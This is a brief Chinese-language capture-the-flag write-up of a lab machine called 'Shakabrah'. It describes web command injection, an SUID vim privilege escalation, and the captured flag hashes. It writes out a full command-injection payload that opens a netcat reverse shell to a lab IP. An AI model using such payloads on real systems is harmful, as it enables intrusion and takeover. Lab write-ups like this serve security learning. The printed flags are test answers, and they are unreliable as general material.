









# Shakabrah

是Web題

一進去感覺就是要Command Injection 戳一個Payload就能RCE了
(這題有環境問題 只能用他指定的Payload戳Reverse shell)
`;rm -f /tmp/x; mkfifo /tmp/x; /bin/sh -c "cat /tmp/x | /bin/sh -i 2>&1 | nc 192.168.49.173 80 > /tmp/x"`

## 提權

翻SUID文件找到一個奇怪的檔案 運行以後發現是vim

到GTFOBins上找SUID的提權就直接root了 但因為沒有python所以要用py3

## Proof

local.txt
`f857a1b073bf4f504ff6d4ff8db81cc5`

proof.txt
`a7a335ff352dc977cb424287ba031808`
